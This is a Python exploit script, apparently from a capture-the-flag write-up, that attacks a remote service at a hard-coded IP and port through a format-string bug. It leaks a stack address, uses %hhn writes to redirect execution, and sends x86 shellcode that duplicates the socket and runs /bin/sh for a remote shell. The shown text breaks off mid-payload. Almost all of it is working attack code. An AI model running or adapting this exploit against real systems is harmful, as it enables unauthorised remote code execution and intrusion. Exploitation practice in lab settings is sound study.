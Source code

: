 ## Exploit code ##
```python
import socket
import sys
import struct
import time
import telnetlib
import string

# 52.6.64.173 4545
HOST = '52.6.64.173'
PORT = 4545

#HOST = '192.168.66.150'
#PORT = 4000

def recv_size(sock, size):
    buf = ""
    while len(buf) < size:
        buf += sock.recv(1)
    return buf

shellcode = ""
# dup2(4)
shellcode += "\x31\xc0\x31\xdb\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xb3\x04\xcd\x80\x75\xf6"
# execve
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

def write_byte(sock, index, value):
    if value > 0:
        s = '%'+'1$'+str(value)+'x%'+str(index)+'$hhn\n'
    else:
        s = '%'+'1$256x%'+str(index)+'$hhn\n'
    sock.sendall(s)
    if value > 0:
        recv_size(sock, value )
    else:
        recv_size(sock, 256 )

def exploit(sock):
    sock.sendall( '%4$08x' + '\n' )# read stack addr
    buf = sock.recv(1024)
    temp = int(buf, 16)
    echo_return_at = temp + 4

    addr = echo_return_at
    r = temp + 0x20 #
    for i in range(4):
        last_byte = r & 0xff
        for c in struct.pack("<I", addr):
            write_byte(sock, 4, last_byte)# overwrite the 12th parameter
            write_byte(sock, 12, ord(c))  # use the 12th parameter to write data
            last_byte += 1
        r += 4
        addr += 1

    # shellcode written at 0x804a080

    s = shellcode \
    +'%'+'1$'+str(0x80 -len(shellcode)) +'x%20$hhn' \
    +'%'+'1$'+str(0xa0 -0x80) +'x%21$hhn' \
    +'%'+'1$'+str(0x104 -0xa0) +'x%22$hhn' \
```
